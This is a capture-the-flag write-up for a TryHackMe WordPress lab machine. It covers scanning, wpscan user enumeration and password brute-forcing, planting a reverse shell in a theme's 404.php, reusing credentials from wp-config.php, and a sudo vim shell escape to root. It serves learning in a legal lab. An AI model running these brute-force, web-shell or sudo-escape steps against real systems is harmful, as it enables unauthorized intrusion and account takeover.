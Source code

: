 
[TryHackMe Link](https://tryhackme.com/room/colddboxeasy){ .md-button }

!!! example "Description"

    <p id="desc" style="font-size:15px"></p>

In this CTF, I was able to successfully exploit a WordPress server using a combination of tools and techniques. In this blog post, I will share my experience and provide insights on how I was able to get the initial foothold, escalate my privileges, and finally became root.

## <b>Scanning</b>

* Assigned IP address: &nbsp; <b id="ip" style="color:purple"></b>
  
* Open Ports: 

| <p style="font-size:14px; color: black">PORT</p>      | <p style="font-size:14px; color: black">SERVICE</p> |  <p style="font-size:14px; color: black">DESCRIPTION                          |
| :---------: | :---------: | :----------------------------------: |
| <p id="p1" style="font-size:14px; color: purple"></p>      | <p id="s1" style="font-size:14px; color: purple"></p>  |<p id="d1" style="font-size:14px; color: purple"></p>   |
| <p id="p2" style="font-size:14px;  color: purple"></p>     | <p id="s2" style="font-size:14px; color: purple"></p>  |<p id="d2" style="font-size:14px; color: purple"></p> |


* Nmap Report:
  ```s linenums="1" hl_lines="6 10"
  # Nmap 7.93 scan initiated Mon Feb 20 13:34:05 2023 as: nmap -sC -sV -O -oN nmap.txt 10.10.237.179
    Nmap scan report for 10.10.237.179
    Host is up (0.15s latency).
    Not shown: 999 closed tcp ports (reset)
    PORT   STATE SERVICE VERSION
    80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
    |_http-generator: WordPress 4.1.31
    |_http-server-header: Apache/2.4.18 (Ubuntu)
    |_http-title: ColddBox | One more machine
    4512/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   2048 4ebf98c09bc536808c96e8969565973b (RSA)
    |   256 8817f1a844f7f8062fd34f733298c7c5 (ECDSA)
    |_  256 f2fc6c750820b1b2512d94d694d7514f (ED25519)
    No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
    TCP/IP fingerprint:
    OS:SCAN(V=7.93%E=4%D=2/20%OT=80%CT=1%CU=42564%PV=Y%DS=5%DC=I%G=Y%TM=63F36FE
    OS:8%P=aarch64-unknown-linux-gnu)SEQ(SP=103%GCD=1%ISR=10E%TI=Z%CI=I%II=I%TS
    OS:=8)OPS(O1=M505ST11NW7%O2=M505ST11NW7%O3=M505NNT11NW7%O4=M505ST11NW7%O5=M
    OS:505ST11NW7%O6=M505ST11)WIN(W1=68DF%W2=68DF%W3=68DF%W4=68DF%W5=68DF%W6=68
    OS:DF)ECN(R=Y%DF=Y%T=40%W=6903%O=M505NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=
    OS:S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q
    OS:=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A
    OS:%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y
    OS:%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T
    OS:=40%CD=S)

    Network Distance: 5 hops

    OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    # Nmap done at Mon Feb 20 08:04:40 2023 -- 1 IP address (1 host up) scanned in -19765.28 seconds
  ```

## <b>Enumeration</b>

The first step in this process was to enumerate the webserver (WordPress) with its vulnerable plugins, themes, and users using wpscan. 

!!! tip "User Enumeration" 
    <p id="desc" style="font-size:20px">```wpscan --url http://$IP -e  u```</p>

After running this command, it returned c0ldd, philip, and hugo as usernames.

```s linenums="1" hl_lines="50 54 58"
[+] URL: http://10.10.237.179/ [10.10.237.179]
[+] Started: Mon Feb 20 13:13:31 2023

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.18 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://10.10.237.179/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://10.10.237.179/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] WordPress version 4.1.31 identified (Insecure, released on 2020-06-10).
 | Found By: Rss Generator (Passive Detection)
 |  - http://10.10.237.179/?feed=rss2, <generator>https://wordpress.org/?v=4.1.31</generator>
 |  - http://10.10.237.179/?feed=comments-rss2, <generator>https://wordpress.org/?v=4.1.31</generator>

[+] WordPress theme in use: twentyfifteen
 | Location: http://10.10.237.179/wp-content/themes/twentyfifteen/
 | Last Updated: 2022-11-02T00:00:00.000Z
 | Readme: http://10.10.237.179/wp-content/themes/twentyfifteen/readme.txt
 | [!] The version is out of date, the latest version is 3.3
 | Style URL: http://10.10.237.179/wp-content/themes/twentyfifteen/style.css?ver=4.1.31
 | Style Name: Twenty Fifteen
 | Style URI: https://wordpress.org/themes/twentyfifteen
 | Description: Our 2015 default theme is clean, blog-focused, and designed for clarity. Twenty Fifteen simple, st...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/

[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:01 <========================================> (10 / 10) 100.00% Time: 00:00:01

[i] User(s) Identified:

[+] the cold in person
 | Found By: Rss Generator (Passive Detection)

[+] hugo
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] c0ldd
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] philip
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

```

I decided to brute force the usernames and passwords using wpscan's built-in feature.

!!! bug "Brute Force" 
    <p id="desc" style="font-size:20px">```wpscan --url $IP -U 'c0ldd,hugo,philip' -P /usr/share/seclists/Passwords/probable-v2-top12000.txt```</p>
    

```s linenums="1" hl_lines="7 9 10"
[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:04 <=======================================> (137 / 137) 100.00% Time: 00:00:04

[i] No Config Backups Found.

[+] Performing password attack on Wp Login against 3 user/s
[SUCCESS] - c0ldd / {--REDACTED--}                                                                                        
^Cying philip / beanie Time: 00:09:52 <========                                 > (8839 / 40665) 21.73%  ETA: 00:35:35
[!] Valid Combinations Found:
 | Username: c0ldd, Password: {--REDACTED--}

[!] No WPScan API Token given, as a result vulnerability data has not been output.(8844 / 40665) 21.74%  ETA: 00:35:34
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Mon Feb 20 13:32:05 2023
[+] Requests Done: 8984
[+] Cached Requests: 38
[+] Data Sent: 2.909 MB
[+] Data Received: 32.484 MB
[+] Memory used: 304.16 MB
[+] Elapsed time: 00:09:59
```
## <b>Initial Access</b>

Quickly, I directed to ```/wp-login.php``` to verify login with the harvested credentials -- {++c0ld:REDACTED++}

<img id="image1" />

After successfully logging in using the credentials for `c0ldd`, I edited the 404.php file in the appearance tab of the themes section to add a reverse shell. This allowed me to get my initial foothold into the web server. 

<img id="image2" />

I opened a listener on another tab and then opened the 404.php file in my browser. As a result, I gained access to the server with the `www-data` privilege.

<img id="image3" />
<img id="image4" />

## <b>Privilege Escalation</b>

### <b>Gaining User access</b>

As www-data, I didn't initially have access to any juicy information. However, I was able to run linpeas.sh, which helped me to find some credentials that were left in the wp-config.php file. 

<img id="image5" />

 I copied the username and password and attempted to access the `3306` port that was running on `127.0.0.1` but had no luck. Finally, I tried using the same credentials to log in to the `c0ldd` account. This was a success, and I was able to escalate my privilege from `www-data` to `c0ldd`.

### <b>Gaining Root access</b>

As `c0ldd`, I ran sudo -l as I already knew his password. The output showed that Vim could be run as sudo.

<img id="image6" />

With this knowledge, I was able to execute the command 

!!! success "Sudo Command"
    <p id="desc" style="font-size:20px">```sudo vim -c ':!/bin/sh'```</p>

from [GTFOBINS](https://gtfobins.github.io/gtfobins/vim/#sudo). This allowed me to edit a file that was owned by root, thereby giving me access to the root user. As a result, I was able to escalate my privilege once again and become root.

<script>
// JSON object
const data = {
    "desc": "An easy level machine with multiple ways to escalate privileges.",
    "ip":  "10.10.237.179",
    "ports": "80/tcp,http,Apache httpd 2.4.18;4512/tcp,ssh,OpenSSH 7.2p2 Ubuntu 4ubuntu2.10",
    "difficulty":"easy",
    "id": "1"
}


function updateHTML() {

    const keys = Object.keys(data);
    const values = Object.values(data);

    for(var z=0; z < keys.length; z++){

        if(keys[z] === "ports"){
            const ports = data.ports.split(';');
            for(var i = 0; i < ports.length; i++){
                document.getElementById("p"+(i+1)).innerHTML = ports[i].split(',')[0].toUpperCase();
                document.getElementById("s"+(i+1)).innerHTML = ports[i].split(',')[1].toUpperCase();
                document.getElementById("d"+(i+1)).innerHTML = ports[i].split(',')[2];
            }
        }
        else{
            try{
            document.getElementById(keys[z]).innerHTML = values[z];
            }
            catch(error){
                console.log(values[z]);
            }
        }
    }

    // replace the values with your specific filenames and number of images and img tags
    const numImages = 5;
    const numImgTags = document.getElementsByTagName('img').length;

    for (let i = 1; i <= numImgTags; i++) {
    const imgTag = document.getElementById('image' + i);
        if (imgTag) {
            imgTag.src = '../images/'+data.difficulty[0]+data.id+'-image' + i + '.png';
        }
    }


}

updateHTML();
</script>